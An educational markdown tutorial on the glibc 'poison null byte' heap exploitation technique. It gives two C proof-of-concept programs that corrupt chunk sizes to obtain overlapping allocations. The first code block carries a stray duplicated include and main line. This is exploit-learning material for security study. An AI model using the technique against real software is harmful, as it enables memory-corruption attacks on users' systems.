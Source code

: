 # Poison null byte
> LongChampion, 16/03/2020

# Simple version: arbitrary overwrite
In this simple sersion, we can overwrite next chunk header with any content because of an overflow, let see what will happen:
```
#include <stdlib.h>

int main()
#include <stdlib.h>
#define PREV_INUSE 0x1

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);
    void *c = malloc(0x100 - 8);

    struct Chunk *b_header = (struct Chunk *) (b - 0x10);
    b_header->size = 0x200 | PREV_INUSE;

    struct Chunk *f_header = (struct Chunk *) (b + 0x200 - 0x10);
    f_header->size = 0x200 | PREV_INUSE;

    free(b);
    b = malloc(0x200 - 8);
}
```
First, we overflow chunk `a` to set size of chunk `b` to 0x200 | 0x1. We must set PREV_INUSE flag or `free` will merge chunk `b` with chunk `a` when chunk `b` is freed. Then, we create a fake chunk at offset 0x200 behind chunk `b`. This size fake chunk must equal to fake size of chunk `b` (it's is 0x200 in the code above). Again, the PREV_INUSE flag is also necessary: you can free a chunk if is not in use. The chunk `c` very inportant: it is both the victim chunk to be overlapping and the "pivot" chunk to prevent chunk `b` become the top chunk, which we can not free.  
Finally, free chunk `b`, it will be pushed to smallbin of size 0x200. When we call `malloc(0x200 - 8)`, we recieve chunk `b` again but with BIGGER SIZE and we are able to overwrite to chuck `c`.

# Reality version: only one nullbyte overflow
This error is common but is harder to exploit.
```
#include <stdlib.h>
#include <malloc.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x210 - 8);
    void *c = malloc(0x100 - 8);

    free(b);

    *(char *) (a + malloc_usable_size(a)) = 0x00;
    struct Chunk *f_chunk = (struct Chunk *) (b + 0x200 - 0x10);
    f_chunk->pre_size = 0x200;

    void *b1 = malloc(0x100 - 8);
    void *b2 = malloc(0x60 - 8);

    free(b1);
    free(c);

    b = malloc(0x400 - 8);
}
```

> I highly recommend read [this](https://go.contextis.com/rs/140-OCV-459/images/Glibc_Adventures-The_Forgotten_Chunks.pdf) for visualization of this attack.

This attack is very similar to the last one except the followings:
- We modify chunk `b` AFTER it have been freed.
- The nullbyte DECREASE size of chunk `b` (0x00 is the smallest byte lol)
- The size of chunk `b1` must strictly LERGER than max size of fastbin
- After `free(c)`, chunk `b` is topchunk, so any malloc with size larger than size of last_remeaning_chunk will return `b`. (last_remeaning_chunk is the chunk remain in unsorted_bin when we call allocate `b2`)

## NOTE
- **DON'T MAKE YOUR LIFE OBSTRUCT BY YOURSELF**:  
    In simple version, we set
    > `f_chunk->size = 0x200 | PREV_INUSE`

    but in reality version, we set
    > `f_chunk->pre_size = 0x200`.
- This attack doesn't work against tcache_bin and fastbin because their mechanism are different from smallbin mechanism.
